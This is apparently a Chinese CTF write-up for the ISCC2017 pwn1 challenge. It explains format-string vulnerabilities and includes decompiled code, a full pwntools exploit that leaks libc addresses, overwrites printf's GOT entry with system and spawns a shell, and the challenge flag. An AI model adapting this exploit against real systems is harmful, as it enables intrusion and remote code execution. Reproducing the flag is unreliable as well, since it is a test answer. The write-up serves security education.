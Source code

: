 ```yaml
---

layout: post

title: 'ISCC2017之pwn1初探格式化漏洞'

date: '2017-05-06'

header-img: "img/home-bg.jpg"

tags:
     - pwn 格式化漏洞  
author: 'De4dCr0w'

---
```


### 基础知识 ###

#### 格式化漏洞的原理 ####

printf函数在处理参数的时候，每遇到一个%开头的标记，就会根据这个%开头的字符所规定的规则执行，即使没有传入参数，也会认定栈上相应的位置为参数。  
每一个格式化字符串的 % 之后可以跟一个十进制的常数再跟一个 $ 符号, 表示格式化指定位置的参数

<!-- more -->

#### 格式化漏洞的使用技术 ####

* %N$p：以16进制的格式输出位于printf第N个参数位置的值；
* %N$s：以printf第N个参数位置的值为地址，输出这个地址指向的字符串的内容；
* %N$n：以printf第N个参数位置的值为地址，将输出过的字符数量的值写入这个地址中，对于32位elf而言，%n是写入4个字节，%hn是写入2个字节，%hhn是写入一个字节；
* %Nc：输出N个字符，这个可以配合%N$n使用，达到任意地址任意值写入的目的。

N的大小是有限制，所以如果一般地址的大小过大，可以通过%hhn一个字节的字节写入

> 反汇编的main函数

	int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
	{
	  int v3; // [sp+14h] [bp-6Ch]@3
	  int v4; // [sp+18h] [bp-68h]@5
	  int v5; // [sp+7Ch] [bp-4h]@1
	
	  v5 = *MK_FP(__GS__, 20);
	  setbuf(stdout, 0);
	  while ( 1 )
	  {
	    introduce();
	    do
	      __isoc99_scanf("%d", &v3);
	    while ( (char *)(char)getchar() == "\n" );
	    if ( v3 == 1 )
	    {
	      puts("please input your name:");
	      gets((char *)&v4);
	      printf((const char *)&v4);
	      puts(",you are welcome!");
	    }
	    else if ( v3 == 2 )
	    {
	      puts("nothing!!!!lol");
	    }
	    else
	    {
	      puts("please,don't trick me");
	    }
	  }
	}

> 反汇编的introduce函数

	int introduce()
	{
	  puts("\n++++Welcome to ziiiro's class!++++");
	  puts("now you can do something:");
	  puts("1.get your name");
	  puts("2.heiheihei");
	  return printf("plz input$");
	}

### 做题思路 ###

![](http://i.imgur.com/ca0ILoj.png)

查看pwn1开启的保护，栈上不可执行，所以不考虑使用shellcode，其实题目中格式化漏洞还是很明显，格式化漏洞可以任意读写内存地址，这样就简单了，我们通过printf函数，利用格式化漏洞泄露函数地址和got表的覆盖来执行system('/bin/sh')来获取主机shell，代码已经为我们很好构造了这样的环境，我们通过gets函数输入/bin/sh，然后将printf函数覆盖成system函数。

我们用AAAA%N$08x，通过改变N的大小来探测AAAA保存在printf函数的第几个参数上，出现41414141时N的大小就是在第几个参数上，这题是在第六个参数上，这是因为gets函数输入的字符串保存在栈上的高地址上（相对于printf的ebp，ret），随后调用printf保存在栈的低位置，**它们使用的是同一个栈**，关键点是要知道我们输入的可控数据保存在哪里。

>exploit.py

	from pwn import *
	import time
	
	context.log_level = 'debug'
	p = remote('115.28.185.220',11111)
	libc = ELF('./libc32.so')
	#p = process('./pwn1')
	#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
	#本地调试

	puts_got = 0x804A01C
	printf_got = 0x804A010
	
	system_libc = libc.symbols['system']
	puts_libc = libc.symbols['puts']

	p.recvuntil("plz input$")
	p.sendline('1')
	
	p.recvuntil("please input your name:")
	#泄露put函数的实际地址
	payload = p32(puts_got)+'%6$s'
	
	p.sendline(payload)
	puts_addr = p.recvuntil('\xf7')
	puts_addr = u32(puts_addr[5:9])
	#本地调试是\xb7,为什么是[5:9]而不是[4:8]，完全是调试出来的，好像接收了一个换行

	#通过泄露的put地址和libc32.so计算出system函数的实际地址
	libc_offset = puts_addr - puts_libc
	system_addr = system_libc + libc_offset
	
	time.sleep(3)
	
	p.recvuntil("plz input$")
	p.sendline('1')
	p.recvuntil("please input your name:")
	#gdb.attach(p)，在这里调试可以查看printf的地址是否被改变

	#将printf的地址覆盖成system，采用单字节覆盖，因为
	payload = p32(printf_got)+p32(printf_got+1)+p32(printf_got+2)
	payload += "%"+str((system_addr&0x000000FF)-12)+"c%6$hhn"
	payload += "%"+str(((system_addr&0x0000FF00)>>8)+0x100-(system_addr&0x000000FF))+"c%7$hhn"
	payload += "%"+str(((system_addr&0x00FF0000)>>16)+0x200-((system_addr&0x0000FF00)>>8))+"c%8$hhn"
	
	p.sendline(payload)
	
	time.sleep(3)
	
	#p.recvuntil("plz input$")//这里printf已经被覆盖成system了，所以打印不出plz input，在这里卡了一下
	p.sendline('1')
	p.recvuntil("please input your name:")

	p.sendline('/bin/sh\0')
	
	p.interactive()

### 结果分析 ###

发送覆盖成system地址的payload之前栈的情况：

![](http://i.imgur.com/aaSbH1m.png)

发送payload之后栈的情况：

![](http://i.imgur.com/31lJ2FJ.png)

可以看到printf函数got地址已经保存了system函数的地址了。

我们再来看看payload是怎么工作的：  
之前我们已经知道gets得到的字符串保存在printf函数的第6个参数上，所以我们将0x804a010放在第6个参数，将0x804a011放在第7个参数，将0x804a012放在第8个参数，然后将system的地址的最后两位的大小写进第6个参数，因为前面已经输入四个地址12字节的大小了，所以要减去。  
这里要注意一点：如果我们要向一个内存字节中写入 0x10 当时我们已经打印了多于 0x10 的数据那么怎么办呢 ?  
因为单字节的写入是会产生溢出的  
假如说我们现在已经向内存中写入了 0xbf 个字节   
我们要再次写入 0x10 , 那么我们只需要将这个计数器调整为 0x110  
这样产生溢出以后 写入内存的就是 0x10 了  
这就是我们要加上0x100和0x200大小的原因了。大小的调整配合调试就可以得出了。

>flag: flag{Pwn1TdsS_@tdxIscc}

